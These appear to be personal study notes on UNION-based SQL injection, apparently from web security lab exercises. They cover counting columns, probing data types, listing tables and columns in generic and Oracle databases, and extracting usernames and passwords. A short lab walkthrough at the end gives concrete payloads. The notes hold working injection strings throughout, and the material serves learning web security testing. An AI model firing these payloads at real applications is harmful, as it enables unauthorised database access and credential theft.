

When input is reflected in the app itself, can use the `UNION` keyword to execute **additional** queries to retrieve data from other database tables. 
**Requires knowing:**
- **How many columns returned from original app query** *(as the individual queries must **return the same number of columns**.)*
- **Whether original columns are a suitable data type** to hold the injected query's results (e.g. `text` vs `number`)

### UNION Attack Steps:
1. **Determine # of columns:** - when an error occurs, know that the number of columns is `x-1`
	- Injecting a series of `ORDER BY x` clauses and incrementing `x` (specified column index)
	- Submitting a series of `UNION SELECT` payloads with `x` `NULL` values - `' UNION SELECT NULL,NULL--`, etc.
	  *Use `NULL` as is **convertible to every common data type**, maximising chance that data types between columns are compatible*
2. **Determine data type of columns** - as need columns in the original query to be compatible with (typically string) data. Can probe each column to test what data type it can hold - e.g.: `' UNION SELECT NULL,'a',NULL,NULL--`. Incompatible ones will cause an error. 
3. **List tables** in the `information_schema` view:
  `' UNION SELECT table_name, 'a' FROM information_schema.tables--`. 
	  For **Oracle:** `' UNION SELECT table_name, NULL FROM all_tables--` 
4. **List columns in table `x`:** `' UNION SELECT column_name, 'a' FROM information_schema.columns WHERE table_name='x'--`
	   **Oracle:** `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'x'--`
5. **List data:** `' UNION SELECT username, password FROM users--` 
6. **Concatenate data (include multiple values within one column) if needed**: use string concatenation operators, like `||` & format like `username || '~' || password`
### Database-specific syntax
- For Oracle databases, every `SELECT` query must use the `FROM` keyword and specify a valid table (can use in-built `dual`)
- Refer to [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for database-specific syntax 

2. **Determine database type:** `' UNION SELECT BANNER, NULL FROM v$version--` - Oracle Database
3. **List tables:** `' UNION SELECT table_name, NULL FROM all_tables--` --> found USERS_MFXKTH
4. *Oracle quirk* **List columns in table:** `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_MFXKTH'--` - found user/pw columns
5. **List data:** `' UNION SELECT USERNAME_LDJJRQ, PASSWORD_ZHGBIT FROM USERS_MFXKTH--` 